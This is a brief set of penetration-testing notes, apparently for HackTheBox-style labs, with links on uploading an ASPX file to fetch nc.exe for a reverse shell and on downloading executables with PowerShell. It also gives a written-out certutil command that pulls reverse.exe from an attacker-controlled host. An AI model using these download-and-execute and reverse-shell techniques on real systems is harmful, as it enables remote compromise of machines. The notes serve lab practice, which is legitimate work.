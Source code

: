 # ASPX File upload -> Download nc.exe and take reverse shell

https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c


## Powershell script to download exe from the kali machine (From Cmd)

https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/


## Download files from kali machine using certutil

certutil.exe -urlcache -split -f http://10.10.14.33:8888/reverse.exe reverse.exe



